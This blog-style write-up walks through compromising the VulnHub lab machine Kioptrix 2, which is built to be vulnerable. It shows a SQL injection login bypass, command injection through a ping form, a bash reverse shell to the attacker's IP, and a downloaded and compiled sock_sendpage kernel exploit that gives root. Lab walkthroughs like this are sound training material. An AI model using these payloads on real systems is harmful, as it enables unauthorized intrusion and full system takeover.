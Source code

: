 ```yaml
---
layout: post
title: "Kioptrix 2"
date: 2020-09-18 14:23:00 -0600
tags: VulnHub
---
```


Same as Kioptrix 1, this is an entry level box from VulnHub, you can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/#download).

## Enumeration

Again we follow the same pattern as the Kioptrix 1 and run AutoRecon against the box once it is booted up and on the network. AutoRecon showed similar results to the first Kioptrix machine, going through the Nikto scans I didn't really see anything of interest. The website on port 80 happened to be hosting a login screen though I decided to manually take a poke.

## SQL Injection

Most login pages are backed by a database of some type so I decided to try poking at some SQL Injection. Turns out the login page was susceptible to a SQLI and I was able to gain access to the protected pages with a simple `' or 1=1#'

![sqli.png](/assets/images/af04e7308718422b9a38da019a8a5b65.png)

## Internal Enumeration

Once we got to the internal page there was a form there to "ping a machine on the network", entering the loopback we get output that looks exactly like the ping terminal utility. This means they are probably calling shell commands directly from the web interface and we can try to get command injection.

![ping.png](/assets/images/0ad2948625e5434188cef9ef36b593c3.png)

We can try testing command injection with either a ';' or '&&'. The ';' means to perform an additional command after the first command and '&&' means to perform an additional command if the first one succeeds. So let's trying running a simple command after the ping command.

![whoami.png](/assets/images/d3086b5184a94a34b30f0e7a91767b71.png)

We can see from the screenshot that the whoami command ran after the ping command and we are running as the apache user. Let's use our ability to chain commands to get a shell on the machine. We can use the following bash command to get a shell back '127.0.0.1; bash -i >& /dev/tcp/192.168.1.209/1122 0>&1', but first we need to open a listener on our Kali machine with 'nc -nvlp 1122'. Once we have our listener and we inject our command from above and send it, it will look like the command hung but if we check our nc command we will see that we have a terminal.

![hostname.png](/assets/images/f1780a654f4c467f81614e99224de429.png)

## Host Enumeration

Doing some quick enumeration on the host, we can see what our current kernel and distro are by running 'uname -r' and 'cat /etc/\*-release'.

![version.png](/assets/images/5864eca3d42943a6a859756ac8710a03.png)

From this we can see that we are running kernel 2.6.9-55.EL on CentOS 4.5, we can feed this information into SearchSploit and see if we can find anything. I usually grep for Priv in my SearchSploit searches to narrow it down even more, if we search for 'Linux Kernel CentOS' we get the following results back.

![searchsploit.png](/assets/images/eb260591535045d6893385b7b3544733.png)

We can see that this machine appears to be vulnerable to the sock_sendpage() exploit which is fairly common to see on older machines. This exploit is provided to us as raw C code so we will need to compile it before we can use it. First we transfer it to our working directory with 'searchsploit -m 9545', this will copy the code for that exploit to our current working directory. Once we have it there we can start a python HTTP server to get the file onto our target machine, we can do that with 'python -m SimpleHTTPServer 8080'.

Once the python server is running we can download it onto our target with 'wget http://192.168.1.209:8080/9545.c'. This will download the exploit code through our Python web server. Then we can compile it with 'gcc -o exploit 9545.c'. This will give us our compiled code that we can add the execute attribute to with 'chmod +x exploit' and run with ''./exploit'.

![root.png](/assets/images/c636303ec26f417e8a5f90f434246f4a.png)

Quite a bit to take in in that screenshot but we can see us switching to the /tmp directory so we are somewhere writable, downloading our exploit code, compiling it and running it. Running the exploit in this case is a success and we can see that we are now the root user.
